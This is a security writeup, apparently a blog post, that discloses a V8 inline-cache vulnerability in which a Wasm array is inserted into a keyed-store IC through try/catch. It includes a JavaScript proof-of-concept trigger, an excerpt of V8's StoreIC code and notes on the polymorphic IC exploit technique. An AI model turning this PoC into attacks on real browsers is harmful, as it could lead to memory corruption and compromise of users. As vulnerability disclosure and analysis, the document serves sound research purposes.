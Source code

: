 author: [@mistymntncop](https://x.com/mistymntncop), [@buptsb](https://x.com/buptsb)
2024-06-04 19:45:52

_This writeup is the FIRST public disclosure for this vulnerability._

# Info
[ic] Use slow stub element handler for non-JSObjects
https://chromium-review.googlesource.com/c/v8/v8/+/5527898

![image](https://github.com/buptsb/blog/assets/666724/822a138e-2e18-4a40-ae07-17661fb83baa)

# PoC
https://gist.github.com/mistymntncop/b6599b24cf57fb1b5c5be63a2f702015

```js
d8.file.execute("wasm-module-builder.js");

let builder = new WasmModuleBuilder();

let array_type = builder.addArray(kWasmI32, true);
builder.addFunction('create_array', makeSig([kWasmI32], [wasmRefType(array_type)]))
    .addBody([
        kExprLocalGet, 0,
        kGCPrefix, kExprArrayNewDefault, array_type,
    ])
.exportFunc();

let wasm_instance = builder.instantiate({});
let wasm = wasm_instance.exports;


function set_keyed_prop(arr, key, val) {
    arr[key] = val;
}

function pwn() {
    for(let i = 0; i < 9; i++) {
        set_keyed_prop([], 0, 0x1337);
    }
    let wasm_array = wasm.create_array(0);

    try {
        set_keyed_prop(wasm_array, "foo", 0x1337);
    } catch(err){ }
    set_keyed_prop([], 0, 0x1337);
    
    %DebugPrint(set_keyed_prop);
    
    try {
        set_keyed_prop(wasm_array, 0, 0x1337);
    } catch(err){ }
    
}
pwn();
```
![image](https://github.com/buptsb/blog/assets/666724/c3a5b520-c05e-465d-ad01-9c148a59941f)

# Analysis

## using try...catch to set ic handler

As we all know, set property on `WasmObjects` would throw `MessageTemplate::kWasmObjectsAreOpaque` error.

But `UpdateCaches` is called before `Object::SetProperty`, so we could add `WasmObject` to IC just with a try...catch to suppress the error.

```C++
MaybeHandle<Object> StoreIC::Store(Handle<Object> object, Handle<Name> name,
                                   Handle<Object> value,
                                   StoreOrigin store_origin) {
  ...
  if (use_ic) {
    UpdateCaches(&it, value, store_origin);    <------ 1
  } else if (state() == NO_FEEDBACK) {
    ...
  }

  if (IsAnyDefineOwn()) {
    ...
  } else {
    MAYBE_RETURN_NULL(Object::SetProperty(&it, value, store_origin)); <------ 2
  }
}
```

## polymorphic IC exploit

Please checkout [@mistymntncop](https://x.com/mistymntncop)'s writeup about [CVE-2023-3079](https://github.com/mistymntncop/CVE-2023-3079), and my poc about [CVE-2023-4762](https://x.com/buptsb/status/1706984650927968501),
it's basicly same exploit technique using v8 polymorphic IC, can't believe it's still exploitable!

